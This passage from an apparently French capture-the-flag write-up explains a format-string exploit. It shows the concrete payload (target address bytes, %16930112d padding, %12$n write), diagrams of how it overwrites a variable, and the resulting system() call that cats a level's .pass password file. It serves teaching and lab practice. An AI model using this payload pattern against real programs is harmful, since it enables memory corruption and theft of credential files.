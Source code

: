 ### 5.2 Structure du payload optimisé

```
┌─────────────────┐
│ Adresse de m    │ ← 4 octets (\x10\x98\x04\x08)
├─────────────────┤
│ %16930112d      │ ← Directive de padding optimisé
├─────────────────┤
│ %12$n           │ ← Directive d'écriture
└─────────────────┘
```

### 5.3 Comparaison des approches

```
┌─────────────────┐    ┌─────────────────┐
│   Méthode       │    │   Taille        │
│   Manuelle      │    │   ~16MB         │
│   "A"*16930112  │    │   (limite 512B) │
└─────────────────┘    └─────────────────┘
         │                       │
         ▼                       ▼
┌─────────────────┐    ┌─────────────────┐
│   Méthode       │    │   Taille        │
│   Optimisée     │    │   ~50 bytes     │
│   %16930112d    │    │   (efficace)    │
└─────────────────┘    └─────────────────┘
```

### 5.4 Flux d'exécution

```
1. printf() reçoit notre entrée avec directive %Nd
2. %16930112d affiche un nombre avec 16930112 caractères de padding
3. Le total de caractères imprimés devient 16930116 (4+16930112)
4. %12$n écrit 16930116 à l'adresse m (0x08049810)
5. Variable m devient égale à 16930116 (0x1025544)
6. Condition m == 0x1025544 est vraie
7. system("/bin/cat /home/user/level5/.pass") s'exécute
8. Le flag est affiché directement
```

### 5.5 Visualisation de l'optimisation

```
┌─────────────────┐    ┌─────────────────┐    ┌─────────────────┐
│   Directive     │    │   Padding       │    │   Écriture      │
│   %16930112d    │───▶│   Virtuel       │───▶│   m = 16930116  │
│   (50 bytes)    │    │   (16MB compté) │    │                │
└─────────────────┘    └─────────────────┘    └─────────────────┘
```

### 5.6 Mécanisme de %Nd
